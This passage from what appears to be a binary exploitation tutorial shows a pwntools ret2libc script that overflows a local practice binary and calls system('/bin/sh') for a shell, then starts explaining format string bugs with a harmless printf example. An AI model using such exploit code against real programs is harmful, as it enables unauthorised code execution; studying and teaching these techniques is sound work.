 #### Automating with Pwntools

Unsurprisingly, pwntools has a bunch of features that make this much simpler.

```python
# 32-bit
from pwn import *

elf = context.binary = ELF('./vuln-32')
p = process()

libc = elf.libc                        # Simply grab the libc it's running with
libc.address = 0xf7dc2000              # Set base address

system = libc.sym['system']            # Grab location of system
binsh = next(libc.search(b'/bin/sh'))  # grab string location

payload = b'A' * 76         # The padding
payload += p32(system)      # Location of system
payload += p32(0x0)         # return pointer - not important once we get the shell
payload += p32(binsh)       # pointer to command: /bin/sh

p.clean()
p.sendline(payload)
p.interactive()
```

The 64-bit looks essentially the same.

> Pwntools can simplify it even more with its ROP capabilities, but I won't showcase them here.

## Format String Bug

> Reading memory off the stack

Format String is a dangerous bug that is easily exploitable. If manipulated correctly, you can leverage it to perform powerful actions such as reading from and writing to arbitrary memory locations.

### Why it exists

In C, certain functions can take "format specifier" within strings. Let's look at an example:

```c
int value = 1205;

printf("Decimal: %d\nFloat: %f\nHex: 0x%x", value, (double) value, value);
```

This prints out:

```
Decimal: 1205
Float: 1205.000000
Hex: 0x4b5
```
